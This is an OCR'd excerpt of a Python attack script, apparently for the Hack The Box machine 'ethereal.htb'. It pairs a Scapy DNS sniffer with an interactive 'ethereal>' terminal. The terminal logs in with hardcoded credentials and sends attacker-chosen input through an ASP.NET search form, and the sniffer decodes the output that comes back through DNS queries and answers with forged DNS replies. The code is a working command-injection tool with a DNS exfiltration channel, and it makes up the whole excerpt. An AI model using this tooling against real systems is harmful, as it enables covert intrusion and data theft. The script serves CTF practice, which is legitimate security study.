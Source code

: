 ```
 25         print(f"[*] Starting DNS Sniffer on {self.interface} for target {self.target_ip}.")
 26         sniff(iface=self.interface, filter=f"src host {self.target_ip} and udp port 53",
 27                 prn=self.parse_packet, stop_filter=lambda p: p.haslayer(DNS) and
 28                 p.getlayer(DNS).qd.qname.decode('utf-8') == kill_domain)
 29         print(f"[*] Received kill packet. Shutting down sniffer thread.")
 30 
 31 
 32     def parse_packet(self, p):
 33         if p.haslayer(DNS) and p.getlayer(DNS).qd.qtype == 1:
 34             domain = p.getlayer(DNS).qd.qname.decode('utf-8')
 35             if domain == kill_domain: return
 36             print(domain[1:-2].replace('X.Q',' ').strip())
 37             reply = IP(dst=p[IP].src)/UDP(dport=p[UDP].sport, sport=53)/DNS(id=p[DNS].id,
 38                     ancount=1, an=DNSRR(rrname=p[DNSQR].qname, rdata='127.0.0.1')/DNSRR(rrname=domain,
 39                     rdata='127.0.0.1'))
 40             send(reply, verbose=0, iface=self.interface)
 41 
 42 class Terminal(Cmd):
 43     prompt = "ethereal> "
 44 
 45 
 46     def __init__(self, proxy=None):
 47         super().__init__()
 48         self.proxy = proxy or {}
 49         self.auth = HTTPBasicAuth('alan','!C414m17y57r1k3s4g41n!')
 50         self.do_login()
 51         self.fail_count = 0
 52 
 53 
 54     def do_login(self, args=''):
 55         print("[*] Logging in and fetching state information.")
 56         resp = requests.get('http://ethereal.htb:8080/', auth=self.auth, proxies=self.proxy)
 57         soup = BeautifulSoup(resp.text, 'html.parser')
 58         self.view_state = soup.find("input", id="__VIEWSTATE").get('value')
 59         self.view_state_gen = soup.find("input", id="__VIEWSTATEGENERATOR").get('value')
 60         self.event_val = soup.find("input", id="__EVENTVALIDATION").get('value')
 61         print("[+] State information received.")
 62 
 63 
 64     def send_post(self, search):
 65         data = {'__VIEWSTATE': self.view_state,
 66                 '__VIEWSTATEGENERATOR': self.view_state_gen,
 67                 '__EVENTVALIDATION': self.event_val,
 68                 'search': search,
 69                 'ctl02': ''}
 70         try:
 71             start = time.time()
 72             resp = requests.post('http://ethereal.htb:8080/',
 73                              proxies=self.proxy,
 74                              data = data,
 75                              auth = self.auth,
 76                              timeout=120)
 77             if resp.status_code == 500 and time.time() - start < 30:
 78                 print("[-] Unable to connect to Ethereal\n[*] Running login")
 79                 self.do_login()
 80                 print("[*] Try running the command again.")
 81         except requests.exceptions.Timeout:
 82             pass
 83 
 84 
 85     def do_exit(self, args=''):
 86         print("[*] Sending kill request.")
```